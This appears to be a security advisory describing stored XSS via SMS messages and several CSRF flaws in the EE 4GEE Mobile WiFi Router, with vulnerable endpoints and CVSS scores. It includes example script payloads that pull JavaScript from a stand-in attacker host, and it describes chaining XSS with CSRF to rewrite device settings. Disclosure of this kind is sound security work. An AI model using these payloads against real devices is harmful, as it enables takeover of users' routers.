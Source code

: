 

Stored Cross Site Scripting (XSS) - SMS Messages:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b><br>http://ee.mobilebroadband/default.html#sms/smsList.html?list=inbox<br>
http://ee.mobilebroadband/getSMSlist?rand=0.19598614685224347
<br>
<br>
<b>Attack Vectors:</b> An attacker can exploit the vulnerability by sending a remote SMS message to the device with an XSS payload such as "<script src=http://payload.js</script>" which is executed upon the user viewing the SMS message within the admin panel "SMS Inbox" functionality. Additionally, self-XSS can be achieved by creating an XSS payload from the device its self within a text message, which could be chained with other vulnerabilities such as CSRF.
<br>
<br>
<b>Vulnerability Description:</b>The 4GEE Mobile WiFi Router is vulnerable to Stored Cross Site Scripting (XSS) within the "sms_content" parameter returned to the application's SMS Inbox webpage by the "getSMSlist" POST request, due to a lack of input validation and/or encoding. This exploit can be triggered by remotely sending an SMS message containing any XSS payload such as '"><script src=http://attacker.tld/r.js></script>' which upon clicking on the text message within the web application is successfully executed. 
<br>
<br>
Additionally, due to the other vulnerabilities identified within this device, such vulnerability can be chained with Cross Site Request Forgery (CSRF) using the Stored XSS payload to send an JavaScript XHR POST request to the "uploadSettings" webpage containing binary configuration data, allowing for total modification of device settings by an attacker.

CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 7.1 - High).

<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s)</b>:
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities

Cross Site Request Forgery (CSRF) - Multiple:
-------------------------------------------------
<b>Vendor:</b> EE
<br>
<b>Product:</b> 4GEE Mobile WiFi Router, Version EE60_00_05.00_25
<br>
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b>
<br>
http://192.168.1.1/goform/AddNewProfile?rand=0.376065695742409
<br>
http://192.168.1.1/goform/setWanDisconnect?rand=0.6988130822240772
<br>
http://192.168.1.1/goform/setSMSAutoRedirectSetting?rand=0.9003361879232169
<br>
http://192.168.1.1/goform/setReset?rand=0.021764703082234105
<br>
http://192.168.1.1/goform/uploadBackupSettings
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple Cross Site Request Forgery (CSRF) vulnerabilities within various router administration webpages, due to the lack of robust request verification tokens within requests. An attacker could persuade an authenticated user to visit a malicous website using phishing and/or social engineering techniques to send an CSRF request to the web application, thus executing the privileged function as the authenticated user. In this case, due to the lack of authentication on certain privileged functions, authentication may not be neccessary.
<br>
<br>
The following webpages were identified to be vulnerable to Cross Site Request Forgery (CSRF) attacks:
<br>
<br>
AddNewProfile [2].
<br>
setWanDisconnect [3].
<br>
setSMSAutoRedirectSetting [4].
<br>
setReset [5].
<br>
uploadBackupSettings [6].
<br>
<br>
CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 6.8 - Medium).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
[2] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/AddProfileCSRFXSSPoc.html
<br>
[3] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFInternetDCPoC.html
<br>
[4] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocRedirectSMS.html
<br>
[5] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocResetDefaults.html
<br>
[6] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/uploadBinarySettingsCSRFPoC.html
<br>

Disclaimer
-------------------------------------------------
The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
